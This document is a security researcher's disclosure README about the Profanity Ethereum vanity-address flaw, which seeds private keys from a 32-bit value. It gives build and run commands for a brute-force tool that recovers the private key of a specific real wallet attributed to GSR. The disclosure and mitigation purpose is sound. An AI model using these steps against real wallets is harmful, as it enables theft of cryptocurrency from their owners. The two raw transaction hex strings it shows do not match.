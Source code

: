 
## Disclosure

Hi all, I'm Nate, a security researcher and a master's student in Cyber Security, Threat and Forensics.

I have created this private repository with the required code dependencies specifically for demonstration to provide a proof of concept for the vulnerability I am disclosing.


## Brief Introduction

Profanity is specialized software for generating Ethereum vanity addresses. It harnesses GPU capabilities using OpenCL to efficiently perform this task. The process begins by generating a random private key, then computes the corresponding public key, and ultimately derives the Ethereum address from it. This method benefits from the parallel processing capabilities of GPUs, enhancing the speed and efficiency of creating customized Ethereum addresses.

However, the issue with Profanity is that it uses a random 32-bit vector to seed 256-bit private keys, making it possible to brute-force private keys for wallets generated using this tool.

Read more about the exploit in [this blog post](https://medium.com/amber-group/exploiting-the-profanity-flaw-e986576de7ab#:~:text=Profanity%20is%20an%20Ethereum%20vanity,then%20derives%20the%20Ethereum%20address.).

# Profanity Brute-force
This tool is designed to exploit a vulnerability in the method used for generating certain vanity Ethereum addresses. It aims to reconstruct the private keys of wallets created through interfaces that utilised the Profanity tool. This vulnerability arises from specific flaws in Profanity's address generation process.

## How I Discovered This Wallet Is Affected

I reported an approval exploit in one of GSR's wallets nearly two months ago, where one of the wallets had inadvertently granted a vulnerable contract unlimited allowance to spend its holdings. I reviewed all the addresses they had [labeled on Spotonchain](https://platform.spotonchain.ai/en/entity/807) and noticed the padding style of [this particular address](https://etherscan.io/address/0x8811bfb8bb23a64f7dfa0a545654ab942dc4ad30).

I noticed the repetition of numbers and characters in the address, which led me to suspect it might have been generated using a vanity address creation interface. Prompted by this, I began examining various psotmortems of previously exploited vanity addresses. My goal was to replicate the methods used in those instances to achieve a similar outcome with this address.

I started the brute-force process on the address "0x8811BfB8BB23a64f7dFa0a545654Ab942dc4AD30" to uncover its corresponding private key, following these steps:

I used my MacBook M2 Pro with 16 GB of RAM.


### 1. Build the project
    
    $ git clone https://github.com/0xmstore/GSR
    $ cd GSR
    $ make


### 2. Compute public keys
Run the following command to precompute all seed public keys into `cache` directory.

    $ mkdir cache
    $ ./profanity.x64 -h 

### 3. Find any signed transaction

You need to have a signed transaction in order to reconstruct a public key. You can find it using [Etherscan](https://etherscan.io/).

Let's use the most recent transaction with the hash `0xaf054276bde22dbd41d05214053f24993866d2d2aab5677dcaef490788a01627` and click on `Get Raw Tx Hex` to obtain the raw transaction.

<img width="971" alt="screengrab" src="https://github.com/0xmstore/GSR/assets/99334291/65424c25-e42d-4fd4-b20b-2f75a79e3363">
 

Raw Tx Hex: `0x02f8b10109843b9aca008501ee8cd8b58301189c946e2a43be0b1d33b726f0ca3b8de60b3482b8b05080b844a9059cbb000000000000000000000000a722549ae344d5bf4333aa092c389928f286ce2b000000000000000000000000000000000000000000001fc3842bd1f071c00000c080a08ec7259af0cef057e4fdc04fa15a81ac00a39f5d0c890ed9e2db5ecf77e08fdea03f95de3f8c93bd0112852f9fa50a101853e9c1c7dbecde08d746ebcf2fba74d2`

### 4. Reconsutruct the public key

To obtain the public key from the raw transaction, utilize the `pubkey.py` script.

    $ pip install -r requirements.txt
    $ python pubkey.py -t 0x02f87201048459682f0085013d2a27d082520894000000000d1c18a47a23c5826b2567c864a7d414880328ddd5c0dafd7880c001a0c7065b5d54ebcfb3a4325bbd80e0a352500784e2b12cfee614f8ab179ef9cd479fd78e0651f4f408db5420c785204b704ac14de95b18efb913036d9845906da2

### 5. Run search

Once you have successfully recover the publickey, the next step is to run the search using the command line below

    $ ./profanity.x64 --reverse --steps 200000 --cache --target publickey

### 6. Results

This search took approximately 21 days of intermittent running of the script to be able to generate the private key  due to my MacBook M2 Pro's GPU power limitations. Successfully generating a private key signals a vulnerability. **However, if it fails to do so, it does not necessarily indicate that the wallet is safe!** You can try running step 5 with additional steps.


## Mitigation

To mitigate this issue, it's recommended to remove this wallet from your list of proprietary operational wallets. Given that anyone with sufficient resources and expertise could potentially brute-force the private key, there's a risk of unauthorised access to the funds held in this wallet.

Please let me know if any part needs further explanation or clarification.


# Disclaimer

The vulnerability details disclosed in this document are intended solely for the understanding and resolution. The information is confidential and should be treated as such, not to be disclosed or discussed outside authorised channels. It is provided in good faith to support security awarness and should not be used for any unauthorised or unlawful activities. The author assumes no liability for any actions taken by individuals or entities based on this information, and any misuse of this disclosure may be subject to legal action. All information herein have been reported responsibly and ethically to the appropriate parties.


Sincerely,
Nate
